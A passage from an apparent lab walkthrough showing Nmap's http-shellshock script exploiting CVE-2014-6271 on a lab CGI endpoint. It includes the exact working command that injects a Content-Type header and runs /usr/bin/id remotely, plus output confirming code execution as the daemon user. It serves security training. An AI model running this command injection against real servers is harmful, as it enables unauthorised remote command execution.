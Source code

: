 ```
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     Exploit results:
|       <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
|   <html><head>
|   <title>500 Internal Server Error</title> ←
|   </head><body>
|   <h1>Internal Server Error</h1>
|   <p>The server encountered an internal error or
|   misconfiguration and was unable to complete
|   your request.</p>
|   <p>Please contact the server administrator at 
|    you@example.com to inform them of the time this error occurred,
|    and the actions you performed just before this error.</p>
|   <p>More information about this error may be available
|   in the server error log.</p>
|   </body></html>
|   
|     References:
|       http://seclists.org/oss-sec/2014/q3/685
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
MAC Address: 02:42:C0:9C:BE:06 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.71 seconds
```

We notice that the response indicates that the server is indeed vulnerable to Shellshock vulnerability.

But we get back a 500 error message in the response. That means a server-side error occurred during the execution of the supplied payload.

It happened because we needed to send the correct `Content-Type` (to text/HTML) and add a newline (using the `echo` command) from the CGI script to Apache otherwise, things wouldn't work.

`nmap -sS demo4.ine.local -p80 --script http-shellshock --script-args uri=/browser.cgi,cmd='echo Content-Type: text/html; echo; /usr/bin/id'`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-02-14 20:38 IST
Nmap scan report for demo4.ine.local (192.156.190.6)
Host is up (0.00011s latency).
rDNS record for 192.156.190.6: target-4

PORT   STATE SERVICE
80/tcp open  http
| http-shellshock: 
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     Exploit results:
|       uid=1(daemon) gid=1(daemon) groups=1(daemon)
|   
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
```
